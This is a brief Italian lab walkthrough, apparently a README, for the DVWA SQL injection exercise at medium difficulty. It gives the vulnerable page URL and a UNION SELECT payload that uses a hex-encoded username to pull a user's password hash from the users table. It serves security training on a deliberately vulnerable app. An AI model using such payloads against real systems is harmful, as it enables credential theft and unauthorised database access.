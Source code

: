 ![SQLMedium](./Screenshots/SQLmedium.png)

### 📝 **Passaggi**

1. **Vai alla pagina di SQL Injection**:
   - URL: `http://<IP_DVWA>/dvwa/vulnerabilities/sqli/`

2. **Trova i dati di Pablo**:
   Usa il seguente payload nel campo **User ID**:
   ```sql
   0x27 UNION SELECT user, password FROM dvwa.users WHERE user=0x5061626c6f -- 
   ```
![PabloMedium](./Screenshots/EstraggoPabloMedium.png)
